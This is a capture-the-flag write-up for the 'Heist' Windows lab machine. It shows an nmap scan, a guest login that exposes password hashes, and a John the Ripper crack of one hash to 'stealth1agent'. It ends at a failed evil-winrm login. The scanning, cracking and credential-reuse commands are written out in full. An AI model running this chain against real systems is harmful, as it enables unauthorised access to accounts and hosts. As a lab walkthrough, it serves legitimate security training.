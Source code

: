 # Box Name: Heist
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.96.157 -p- -v -T4```

```
Nmap scan report for 10.129.96.157
Host is up (0.40s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T19:48:09
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   339.57 ms 10.10.16.1
2   340.07 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 20:48:49 2023 -- 1 IP address (1 host up) scanned in 436.02 seconds
```
From our nmap scan we have quite a number of ports opened. We'll start our enumeration today from port 80



# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bc80794-25ca-4678-a4fb-5ca4fb869bb6)

We get this login page. Since we don't have any creds lets login as guest

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58e61a19-7993-42ce-bdbf-8c6d4c00e149)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d10915da-73c3-4987-bd9a-f3993ec38178)

Nice, this is a conversation between user ```Hazard``` and the ```admin```. 

Lets check out the configuration file user ```Hazard``` sent.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ce07dae4-06f7-4a39-96f6-d0f0e693bc2f)

From the above screenshot we can see encrypted passwords for users ```Hazard```, ```rout3r``` and ```admin```.

Lets try to crack the first password

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ nano hash                                                        
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt            
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:01:07 DONE (2023-10-10 21:09) 0.01479g/s 51878p/s 51878c/s 51878C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
We got the password to be ```stealth1agent```. Lets try gain access using winrm

command:```evil-winrm -u hazard -i 10.129.96.157 -p 'stealth1agent' -S```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84a4e6da-f73f-4053-8bf5-7fc5578fc32d)

oops, it didn't work


























